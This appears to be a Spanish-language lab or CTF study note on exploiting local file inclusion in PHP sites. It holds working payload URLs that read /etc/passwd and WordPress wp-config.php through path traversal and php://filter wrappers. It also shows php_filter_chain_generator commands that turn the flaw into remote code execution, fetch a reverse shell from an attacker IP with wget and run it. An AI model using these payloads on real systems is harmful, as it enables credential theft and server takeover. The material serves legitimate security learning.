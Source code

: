 Esta vulnerabilidad consiste en poder acceder a archivos internos de la máquina, donde funciona principalmente con webs hechas en php. Por ejemplo, si estamos ante una web o un CMS vulnerable como en el siguiente caso, podemos ver que si vemos un exploit de esta vulnerabilidad nos explican como acceder a los archivos internos de la máquina:
![[pasted image 0 3.png]]
Vamos a examinar este exploit, donde vemos que se aprovecha de una vulnerabilidad de local file inclusion, lo que significa que podemos acceder a archivos locales de la máquina:
![[pasted image 0 4.png]]
Vamos a copiar y pegar esa línea y probemos cómo funciona, y si lo pegamos en el navegador accedemos al archivo que queramos, que en mi caso lo modifiqué y puse para ver el fichero etc/passwd:
![[pasted image 0 5.png]]
Pero lo interesante es acceder con el mismo comando del exploit, donde veremos que tenemos acceso a unas credenciales, donde presionamos CONTROL+U y veremos la información estructurada:
![[pasted image 0 6.png]]
Ahora con estas credenciales podremos iniciar sesión en muchos sitios.
## ADQUIRIR WP-CONFIG.PHP DE WOPRDPRESS
Si encontramos un LFI dentro de un wordpress, podemos obtener el fichero de configuración donde se almacenan las credenciales llamado wp-config.php; y para ello tenemos que usar un wrapper (explotando el plugin que corresponda):
```bash
http://10.10.6.206/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php
```
![[Pasted image 20230826170029.png]]
## EJECUCIÓN REMOTA DE COMANDOS CON LFI
También podemos lograr ejecución remota de comandos si hemos conseguido explotar un LFI y veamos que la web acepte wrappers, por ejemplo dentro de la máquina [[MAQUINA CHAIN]]

------------------------------

Y por aquí podemos explotar un LFI de una forma muy básica:
```
http://utils.chaincorp.nyx/include.php?in=../../../../../../etc/passwd
```
![[Pasted image 20231120194330.png]]
No obstante, podemos intentar leer el fichero include.php, que lo vemos dentro de la url pero en un principio no podemos leerlo, por lo que podemos usar un wrapper, que podemos extraerlo de este repositorio de github:
```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#local-file-inclusion
```
![[Pasted image 20231120194607.png]]
Lo aplicamos y nos devuelve el contenido de este archivo codificado en base64:
```
http://utils.chaincorp.nyx/include.php?in=php://filter/convert.base64-encode/resource=include.php
```
![[Pasted image 20231120194706.png]]
Y vemos que efectivamente podemos bypassear el lfi y leer el contenido de cualquier fichero:
![[Pasted image 20231120194752.png]]
Existe una tool llamada php_filet_chain_generator que nos permite ejecutar un comando a partir de un LFI conocido, la cual podemos encontrarla en el siguiente repositorio de github:
```
https://github.com/synacktiv/php_filter_chain_generator
```
Y aquí tenemos sus instrucciones de uso:
![[Pasted image 20231120195055.png]]
Lo ejecutamos pero en la parte del php le metemos un comando, por ejemplo el comando ls -l:
```bash
python3 php_filter_chain_generator.py --chain "<?php system('ls -l'); ?>"
```
![[Pasted image 20231120195245.png]]
Pegamos todo esto a partir del php?in= y vemos que se ejecuta el comando:
![[Pasted image 20231120195326.png]]
En este punto lo que haremos será compartir la reverse shell dentro de un index.html desde python, y dentro del payload tenemos que usar wget primero para descargarlo:
![[Pasted image 20231129132004.png]]
```bash
python3 php_filter_chain_generator.py --chain "<?php system('wget 192.168.0.24'); ?>"
```
![[Pasted image 20231129132036.png]]
Y si lanzamos un ls, ahora el archivo está dentro de la máquina, por lo que ejecutamos el siguiente otro payload para ejecutar dicho archivo:
![[Pasted image 20231129132131.png]]
Por tanto ahora ya podemos ejecutar este archivo y obtener la reverse shell:
```bash
python3 php_filter_chain_generator.py --chain "<?php system('bash index.html.3'); ?>"
```
![[Pasted image 20231129132243.png]]
![[Pasted image 20231129132323.png]]
Y habremos recibido la conexión:
![[Pasted image 20231129132337.png]]
